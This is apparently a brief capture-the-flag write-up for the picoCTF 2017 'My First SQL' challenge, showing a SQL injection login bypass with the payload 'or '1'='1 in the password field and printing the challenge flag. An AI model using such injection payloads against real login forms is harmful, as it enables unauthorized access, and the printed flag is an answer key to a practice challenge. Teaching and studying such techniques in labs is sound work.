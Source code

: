 # picoCTF 2017: My First SQL

**Level:** 2 **Category:** WEB EXPLOITATION **Point:** 50 

**Description:**

>I really need access to [website](http://shell2017.picoctf.com:14356/), but I forgot my password and there is no reset. Can you help?

**Hint:**

>Have you heard about SQL injection?

## Write-up

This one is a easy SQL injection. Try the username:`admin`  password:`'or '1'='1` 

``` 
Welcome admin. Flag be_careful_what_you_let_people_ask_ca3db5eae25f146a5418c4365b0b5540
```

So the flag is `be_careful_what_you_let_people_ask_ca3db5eae25f146a5418c4365b0b5540`.